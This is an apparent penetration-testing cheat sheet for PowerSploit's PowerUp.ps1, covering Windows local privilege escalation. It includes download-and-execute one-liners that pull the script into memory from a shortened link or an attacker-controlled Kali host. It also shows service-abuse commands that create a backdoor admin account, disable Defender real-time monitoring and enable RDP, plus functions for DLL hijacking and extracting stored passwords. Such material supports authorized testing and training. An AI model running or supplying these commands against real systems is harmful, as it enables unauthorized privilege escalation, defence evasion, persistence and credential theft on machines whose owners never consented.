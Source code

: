 # Local Priv Esc Using PowerUp.ps1

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

## Load PowerUp Locally&#x20;

Load PowerUp.ps1

```
. .\PowerUp.ps1
```

## Load PowerUp to Memory

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString("http://bit.ly/1PdjSHk")
```

#### Loading From Your Kali Apache Server

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString(‘http://<kali_ip>/PowerUp.ps1’)
```

#### PowerShell Version 3 And Above

```
PS C:\> iex (iwr 'http://<kali_ip>/PowerUp.ps1')
```

## Invoke All Privilege Escalation Checks

Invoke All Privilege Escalation Checks on Machine

```
Invoke-AllChecks
```

## Service Abuse

{% embed url="https://powersploit.readthedocs.io/en/latest/Privesc/Invoke-ServiceAbuse/" %}
Main Documentation and Examples
{% endembed %}

Invoke Service Abuse

```
Invoke-ServiceAbuse -Name 'AbyssWebServer'
```

Adding a new user with password

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -User hacker -Password Password1337
```

Running a custom command

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
```

Running a custom command (Enable RDP services) Powershell

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Command "reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f"
```

## Service Enumeration

```
Get-ServiceUnquoted                 -   returns services with unquoted paths that also have a space in the name
Get-ModifiableServiceFile           -   returns services where the current user can write to the service binary path or its config
Get-ModifiableService               -   returns services the current user can modify
Get-ServiceDetail                   -   returns detailed information about a specified service
```

## Service Abuse

```
Invoke-ServiceAbuse                 -   modifies a vulnerable service to create a local admin or execute a custom command
Write-ServiceBinary                 -   writes out a patched C# service binary that adds a local admin or executes commands
Install-ServiceBinary               -   replaces a service binary with one that adds a local admin or executes commands
Restore-ServiceBinary               -   restores a replaced service binary with the original executable
```

## DLL Hijacking

```
Find-ProcessDLLHijack               -   finds potential DLL hijacking opportunities for currently running processes
Find-PathDLLHijack                  -   finds service %PATH% DLL hijacking opportunities
Write-HijackDll                     -   writes out a hijackable DLL
```

## Registry Checks

```
Get-RegistryAlwaysInstallElevated   -  checks if the AlwaysInstallElevated registry key is set
Get-RegistryAutoLogon               -   checks for Autologon credentials in the registry
Get-ModifiableRegistryAutoRun       -   checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns
```

## Miscellaneous Checks

```
Get-ModifiableScheduledTaskFile     -   find schtasks with modifiable target files
Get-UnattendedInstallFile           -   finds remaining unattended installation files
Get-Webconfig                       -   checks for any encrypted web.config strings
Get-ApplicationHost                 -   checks for encrypted application pool and virtual directory passwords
Get-SiteListPassword                -   retrieves the plaintext passwords for any found McAfee's SiteList.xml files
Get-CachedGPPPassword               -   checks for passwords in cached Group Policy Preferences files
```

## Other Helpers

```
Get-ModifiablePath                  -   tokenizes an input string and returns the files in it the current user can modify
Get-CurrentUserTokenGroupSid        -   returns all SIDs that the current user is a part of, whether they are disabled or not
Add-ServiceDacl                     -   adds a Dacl field to a service object returned by Get-Service
Set-ServiceBinPath                  -   sets the binary path for a service to a specified value through Win32 API methods
Test-ServiceDaclPermission          -   tests one or more passed services or service names against a given permission set
Write-UserAddMSI                    -   write out a MSI installer that prompts for a user to be added
Invoke-AllChecks                    -   runs all current escalation checks and returns a report
```

{% embed url="https://blog.certcube.com/powerup-cheatsheet/" %}

{% embed url="https://powersploit.readthedocs.io/en/latest/" %}
This is the full manual / documentation
{% endembed %}
